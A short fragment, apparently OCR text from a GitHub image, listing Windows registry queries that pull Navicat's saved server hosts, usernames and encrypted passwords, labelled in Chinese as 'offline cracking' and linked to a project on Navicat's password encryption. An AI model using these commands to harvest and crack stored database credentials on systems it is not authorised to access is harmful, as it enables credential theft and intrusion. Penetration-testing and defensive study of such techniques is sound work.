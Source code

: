 	>reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v host 
	>reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v UserName 
	>reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v pwd
	离线破解
	https://github.com/HyperSine/how-does-navicat-encrypt-password